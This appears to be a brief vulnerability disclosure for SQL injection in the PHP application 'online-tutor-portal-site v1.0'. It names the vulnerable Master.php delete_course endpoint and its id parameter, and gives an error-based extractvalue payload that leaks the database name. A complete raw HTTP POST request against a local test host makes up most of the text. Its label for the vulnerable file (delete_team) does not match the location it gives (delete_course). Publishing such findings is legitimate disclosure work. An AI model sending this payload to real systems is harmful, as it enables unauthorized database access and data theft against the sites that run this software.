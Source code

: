 # online-tutor-portal-site v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15339/online-tutor-portal-site-phpopp-free-source-code.html

Date: 2022-05-07

Vulnerability File: /otps/classes/Master.php?f=delete_team

Vulnerability location:/otps/classes/Master.php?f=delete_course, id

[+] Payload: 2'and/**/extractvalue(1,concat(char(126),database()))and'

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/otps/classes/Master.php?f=delete_course HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/otps/admin/?page=courses
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

id=2'and/**/extractvalue(1,concat(char(126),database()))and'
```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)

